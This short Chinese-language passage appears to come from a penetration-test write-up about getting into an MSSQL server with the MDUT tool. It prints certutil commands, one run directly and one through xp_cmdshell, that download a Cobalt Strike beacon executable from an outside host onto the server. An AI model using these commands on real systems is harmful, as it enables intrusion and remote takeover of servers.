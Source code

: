 直接用MDUT直接就连上

![image-20231121184743302](images/25.png)

我看网上一些事用的certutil这个工具去下载的cs马，或者先下载一个loader.exe，再通过loader.exe执行shellcode

```
certutil –urlcache –f –split http://192.168.50.128:8083/beacon.exe C:\Users\MSSQLSERVER\beacon.exe

EXEC master..xp_cmdshell 'certutil –urlcache –f –split http://192.168.50.128:8083/beacon.exe C:\Users\MSSQLSERVER\beacon.exe';
```

